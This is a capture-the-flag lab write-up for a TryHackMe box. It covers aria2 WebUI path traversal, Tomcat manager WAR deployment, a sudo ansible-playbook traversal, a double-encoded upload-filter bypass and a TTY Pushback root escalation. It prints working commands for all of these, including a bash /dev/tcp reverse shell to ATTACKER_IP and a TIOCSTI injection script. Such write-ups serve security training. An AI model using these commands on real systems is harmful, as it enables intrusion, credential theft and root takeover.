This box is rated medium difficulty on THM. It involves us exploiting directory traversal vulnerabilities in a few applications to grab low-level shells on the box, as well as a very old privilege escalation technique that allows us to inject arbitrary commands into a root terminal via our user's .bashrc file.

_Daring to set foot where no one has._

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -p22,6800,8080,8888 -sCV 10.64.169.192 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 00:32 CST
Nmap scan report for 10.64.169.192
Host is up (0.042s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 55:41:5a:65:e3:d8:c2:4f:59:a1:68:b6:79:8a:e3:fb (RSA)
|   256 79:8a:12:64:cc:5c:d2:b7:38:dd:4f:07:76:4f:92:e2 (ECDSA)
|_  256 ce:e2:28:01:5f:0f:6a:77:df:1e:0a:79:df:9a:54:47 (ED25519)
6800/tcp open  http            aria2 downloader JSON-RPC
|_http-title: Site doesn't have a title.
8080/tcp open  http            Apache Tomcat 8.5.93
|_http-title: Apache Tomcat/8.5.93
|_http-favicon: Apache Tomcat
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Content-Type: text/html
|     Date: Fri, 06 Feb 2026 06:32:45 GMT
|     Connection: close
|     <!doctype html>
|     <html>
|     <!-- {{{ head -->
|     <head>
|     <link rel="icon" href="../favicon.ico" />
|     <meta charset="utf-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <meta name="theme-color" content="#0A8476">
|     <title ng-bind="$root.pageTitle">Aria2 WebUI</title>
|     <link rel="stylesheet" type="text/css" href="https://fonts.googleapis.com/css?family=Lato:400,700">
|     <link href="app.css" rel="stylesheet"><script type="text/javascript" src="vendor.js"></script><script type="text/javascript" src="app.js"></script></head>
|     <!-- }}} -->
|     <body ng-controller="MainCtrl" ng-cloak>
|     <!-- {{{ Icons -->
|_    <svg aria-hidden="true" style="position: absolute; width: 0; height: 0; overflow: hidden;" version="1.1" xm
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.26 seconds
```

There are four ports open:
- SSH on port 22
- An aria2downloader service on port 6800 (access via JSON-RPC)
- An Apache Tomcat web server on port 8080
- An Aria2 Web UI page on port 8888

Ok checking around the webpages shows nothing for the aria2downloader, which makes sense as it's probably just hosting an API to download files at. The Tomcat webpage is a typical boilerplate one that comes by default so I'll run a few Dirsearch scans to find any exposed directories. This site also discloses the version it's running on so I'll take that into account when diving for CVEs or known vulnerabilities later.



The last page is a UI site built to interact with the Aria2 service, it is commonly used as a command line download utility that supports many many protocols making it a versatile choice. 



A quick scan on the landing page for the UI shows we can provide URIs, Torrents, or Metalinks for the server to download and store elsewhere. A Gobuster dir bust discloses a /flags directory that throws a 500 Internal Server error when I navigate to it:

```
Error: ENOENT: no such file or directory, open '/opt/aria2/docs/flags/index.html'
```

## Path Traversal
As we know the Tomcat version and the framework for the download service, I head over to Google and Exploit-DB to find anything I can leverage to potentially grab RCE on the box; The downloader service is a promising target as it interacts with the server's filesystem. This rewards me with [CVE-2023–39141](https://nvd.nist.gov/vuln/detail/CVE-2023-39141) which discloses that a commit in webui-aria2's repository contains a path traversal vulnerability.

At this point I find a [PoC](https://security.snyk.io/vuln/SNYK-JS-WEBUIARIA2-6322148) containing a simple cURL command to test if our version is prone to this attack. 



Awesome, we can read files directly from the webserver. This exploit works because of improper validation of user-supplied input, below is a snippet from the [Aria2 GitHub repository](https://github.com/ziahamza/webui-aria2/blob/109903f0e2774cf948698cd95a01f77f33d7dd2c/node-server.js#L10) that contains the vulnerable code (line 4):

```
http
  .createServer(function(request, response) {
    var uri = url.parse(request.url).pathname,
      filename = path.join(process.cwd(), "docs", uri);

    var extname = path.extname(filename);
    var contentType = "text/html";
    switch (extname) {
      case ".js":
        contentType = "text/javascript";
        break;
      case ".css":
        contentType = "text/css";
        break;
      case ".ico":
        contentType = "image/x-icon";
        break;
      case ".svg":
        contentType = "image/svg+xml";
        break;
    }
```

As we can see, an attacker can supply path traversal characters to break out of the current working directory and read all files that are readable by the www-data user. From the output of `/etc/passwd`, I find two other users on the system named Orville and Wilbur. I check both of their home directories for SSH keys or credentials with common filenames but get nothing in return.

## Initial Foothold
Next, I supply `/proc/self/environ` to read any enviornment variables currently set. This shows that we are the tomcat user and the binary home directory is under `/opt/tomcat`.

```
$ curl --path-as-is http://MACHINE_IP:8888/../../../../../../../../../../../../../../../../../../../../proc/self/environ --output -

LANG=C.UTF-8PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOME=/opt/tomcatLOGNAME=tomcatUSER=tomcatINVOCATION_ID=f423b6ad04774046898c4f586ef5c8eeJOURNAL_STREAM=9:20178
```

Using that information, I Google sensitive files for Apache Tomcat and find that user credentials are often stored inside of the `/conf/tomcat-users.xml` file.



These credentials are actually valid to sign in on the server on port 8080 at the `/manager` panel, however it has been configured so that no one has access to the administration site.


Since I couldn't find any credentials in common places that will give us a shell or elevated access to the server, I start playing around with the download function on the web UI page. Then, I realized that the server would simply print the output of the file to the screen but not execute it.

The `/manager` page was bugging me because it allowed us to login, but not to manage the site via the page's GUI. I decide to use cURL again to test if we're able to upload files and have the server execute it via the deploy parameter under `/manager/text`. [This website](https://hackviser.com/tactics/pentesting/services/tomcat) is a great reference to have when pentesting certain web applications and is what I used to deploy my shell in this case. 

I start by creating a reverse shell with msfvenom using the WAR (Web Application Archive) format.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ATTACKING_IP] LPORT=[PORT] -f war -o shelly
```

Then, I use cURL with those credentials found earlier along with the `--upload-file` flag to deploy my shell onto the server. Note that we need to add the update parameter set to true in order for the app to immediately process the upload.

```
curl -u tomcat:[PASSWORD] --upload-file shell.war 'http://MACHINE_IP:8080/manager/text/deploy?path=/shell&update=true'
```

Lastly, I setup a Netcat listener and cURL the location of our shell on the site (the trailing / is important for the shell to proc).

```
curl http://MACHINE_IP:8080/shell/
```



This works to get a shell on the system as the tomcat service and I'm able to grab the first of three flags under `/opt/tomcat/`. Now I start internal enumeration in order to escalate privileges to one of the other users or even root.

## Privilege Escalation
I don't end up finding anything under the sites' config files or even a database to dump, however there is a strange directory also inside `/opt` that hosts a few playbooks used by Wilbur. Our current Sudo permission also allow us to run the ansible-playbook binary on any `.yml` file in this dir.



The presence of that wildcard operator will be our key to getting a shell as Wilbur. To do so, we'll need to utilize path traversal characters again to get the Sudo binary to execute a malicious playbook which points toward a reverse shell.

As of now we aren't allowed to create new files in the `/test_playbooks` directory so we'll need to host our files somewhere both Tomcat and Wilbur can like `/tmp`. My shell is a simple bash `/dev/tcp/` payload:

```
bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```

We also need to host a malicious .yml file that will redirect the Sudo binary to execute our shell:

```
- hosts: localhost
  tasks:
    - name: Wilbur Shell
      command: bash /tmp/clickme.sh
```

Before we run the command, we need to `chmod 777` both files so that Wilbur has access to them. Now we can run the full Sudo command while specifying the path to our `.yml` file inside `/tmp`.

```
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/cbev.yml
```



With a successful shell as Wilbur, we can start looking at ways to pivot to Orville.



There a few important file in his home directory, the first being a note left by Orville containing credentials for us to login at an image gallery web app still under development. The second are backup credentials for Wilbur's account inside of a hidden file that we can use to login via SSH.

I check the services running internally and find a web server on port 80, this is most likely that site Orville was speaking of.



I use SSH to port forward this to my attacking machine so I have more tools at my disposal.

```
ssh -L 9999:127.0.0.1:80 wilbur@MACHINE_IP
```

Logging in at the website using Orville's credentials grants us access to a file upload function. Testing a `.php` file discloses that only `JPG, JPEG, PNG, and GIF` files are allowed as valid attempts.



Capturing an upload request shows that we are sending a POST request to dashboard.php using `multipart/form-data` as our content type. I upload a simple .png file to play around with extension names/magic numbers and find that appending `.php` to the filename works. 



These get stored in the /uploads directory, so it's pretty easy to have the server execute whatever we want. I use Pentestmonkey's PHP reverse shell and name it so that it contains `.png` within the extension. This will allow our file to bypass the filter but maintain functionality.



It seems the uploads directory only allows us to download files from it, but not execute/view the contents directly. Thinking back at the overarching theme of this box made me think that we supply more path traversal characters to upload our shell outside of that directory. To test this out, I rename my PHP shell to `../shell.png.php` and hit enter.



Checking to see if this uploaded displays that it does not work, however it still didn't get uploaded to `/uploads` like usual, meaning it probably threw an error trying to reach the root folder or discarded the attempt since it contained bad characters. I retry the same method with URL encoding for a quick bypass and find that by double encoding the `../` characters, we can get past this check.

```
#Specify the filename in captured upload request
Content-Disposition: form-data; name="image"; filename="%252e%252e%252fshell.png.php"
```



With our shell as Orville, I restart enumeration to find anything on the system to use in my efforts to escalate privileges to root user. Inside of his home directory is the second flag as well as a `.zip` file which looks to be a snapshot of the image gallery website. Often times snapshots are captured with automated scripts and I couldn't find one that Orville owns.


## TTY Pushback
I upload [pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) to snoop on background processes and find something pretty interesting. Every minute or so, a user with the UID=0 (presumably root) spawns a bash shell as Orville and makes a zip archive containing all files from the gallery website.



The important thing to notice here is the use of that dash when switching users. Instead of supplying the `-u` flag which specifies which user to seamlessly swap to, this will simulate a full login as the following user. During that process, things such as current environment variables get changed and all startup scripts get executed (ie. bashprofile).

This was around the point I got really stuck, there were no other processes running as root that could be hijacked or binaries with special permissions. Once again, the box's theme was backtracking which could also be interpreted as reverting states, so I knew it had to be this. After spending a painfully long time creating symlinks and trying to exploit zip arguments, I took to AI to give me examples of how attackers are able to revert shell privileges to root after switching between a lower-level account. 



This gives me the idea to use our .bashrc file to host a malicious startup script that will inject commands into the root shell. It would be as easy as making a python script that grants `/bin/bash` with an SUID bit, however I still couldn't find a way of escalating privileges back to root user before once the script would execute.

I came across [this great post](https://www.errno.fr/TTYPushback.html) explaining how a 41-year old privilege escalation technique named TTY Pushback could be used to send input to the parent shell in order to execute commands in their stead. In short, the root user uses the `su - [USER]` command to spawn a child shell process under its current one which allows for direct communication between the two as we're technically in the same PTY.

We can achieve higher privileges by sending `SIGSTOP` to the lower-level shell to put focus back on root. The article also denotes how the `TIOCSTI ioctl` command can be used to inject characters into a terminal's input queue, effectively granting us RCE by use of a custom script.

I alter the PoC from the TTYPushback article to contain my malicious command that will be injected into root's terminal:

```
#!/usr/bin/env python3
import fcntl
import termios
import os
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'chmod +s /bin/bash\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

Finally, I append a command to Orville's `.bashrc` file that will execute the script on shell startup and wait for root to switch users. After a moment of waiting, I spawn a root bash shell and grab the final flag.



That's all y'all, this box was a really cool one as every step involved path traversal or reversing steps. This was a very interesting privesc technique that I hadn't known beforehand so big thanks to [0utc4st](https://tryhackme.com/p/0utc4st) and [psechoPATH](https://tryhackme.com/p/psechoPATH) for making this box. 

I hope this was helpful to anyone following along or stuck and happy hacking!
